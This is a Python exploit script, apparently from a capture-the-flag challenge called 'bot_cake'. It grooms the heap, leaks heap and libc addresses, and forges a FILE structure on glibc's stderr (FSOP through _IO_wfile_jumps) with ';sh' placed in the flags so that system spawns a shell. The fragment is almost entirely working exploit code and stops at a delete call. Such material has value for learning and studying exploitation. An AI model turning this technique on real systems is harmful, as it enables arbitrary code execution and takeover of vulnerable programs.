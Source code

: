 ```python
  

prefix = b'bot_cake submit food name : '

  

for i in range(11):

    create(i, b'a' * 0xf0)

for i in range(7):

    create(i, b'cake')

create(7, b'cake')

  

heap_base = u64(read(0)[:5].ljust(8, b'\x00')) << 12

assert (heap_base >> 44) == 0x5 or (heap_base >> 44) == 0x6 # if the exploit fails here, just restart

print(hex(heap_base))

  
  

l.address = u64(read(7)[:6].ljust(8, b'\x00')) - 0x21adf0

assert (l.address >> 44) == 0x7 # if the exploit fails here, just restart

print(hex(l.address))

  

print(hex(l.sym['_IO_2_1_stderr_']))

fake_fsop_struct = l.sym['_IO_2_1_stderr_']

stderr_lock = l.address + 0x21ca70

FSOP = FSOP_struct(

    flags=u64(b"\x01\x01\x01\x01;sh\x00"),

    lock=stderr_lock,

    _wide_data=fake_fsop_struct - 0x10,

    _markers=l.symbols["system"],

    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),

    vtable=l.symbols["_IO_wfile_jumps"] - 0x40,

    _mode=0xFFFFFFFF,

)

  

delete(7)
```